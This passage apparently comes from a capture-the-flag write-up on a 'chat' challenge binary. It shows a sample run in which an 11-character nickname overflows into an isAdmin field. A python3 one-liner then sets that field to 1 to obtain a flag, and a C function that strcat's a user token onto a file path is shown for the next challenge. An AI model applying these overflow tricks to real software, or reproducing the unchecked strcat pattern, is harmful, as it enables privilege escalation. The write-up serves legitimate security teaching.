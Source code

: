 This causes the *isAdmin* flag to be overwritten in the next copy step. You can easily test this by entering a nickname of length 11:

```
➜  chat ./chat ABABAABAABAA
Hello, guest!
Enter your token: ABCDEFGHI
Enter your nick: NNNNNNNNNNA

Welcome to our chat!

Select command:
    1) Join chat
    2) See user information
    3) Quit

>> 2

User info:
   Nick: 	NNNNNNNNNNA
   His token:	ABCDEFGHI
   isAdmin: 	65

Select command:
    1) Join chat
    2) See user information
    3) Quit

>>
```

As you can see the *isAdmin* has now the value 65 which is the equivalent of ASCII `A`.

So in order to get the first exploit working we only have to write a 1-byte as the eleventh character:

```bash
(python3 -c "print('ABCDEFGHI\n' + 'A'*10 + '\x01')" && cat) | ./chat AAAAAAAAAAA
```

Now when you try to view the user information you will notice that *isAdmin* indeed equals to 1 and the first flag will be printed to you :)


<a name="chat2"></a>

## chat II

As for the first challenge the method which yields the desired flag was also quite obvious:

```c
void change_info(char *info, char* token){
    char path[24] = "flags/flag1/";
    strcat(path, token);
    char *tokens[1];
    int cnt = read_lines(path, tokens);
    if (cnt == -1){
        return;
    }
    strcpy(info, tokens[0]);
    free(tokens[0]);
}
```
